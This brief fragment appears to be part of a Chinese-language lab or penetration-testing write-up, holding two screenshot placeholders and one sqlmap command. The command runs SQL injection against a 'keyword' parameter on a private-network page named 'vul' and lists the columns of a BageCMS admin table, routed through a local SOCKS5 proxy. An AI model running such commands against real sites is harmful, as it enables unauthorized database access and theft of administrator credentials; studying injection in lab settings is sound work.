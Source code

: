 ![截图](7c98a95e7c54fdc48015ed95a35ac694.png)

```
sqlmap -u "http://192.168.22.22/index.php?r=vul&keyword=1" --batch -D bagecms -T bage_admin --columns  --proxy=socks5://127.0.0.1:1080
```

![截图](11bfc5ef8e8863eadfb0cb792ed58998.png)

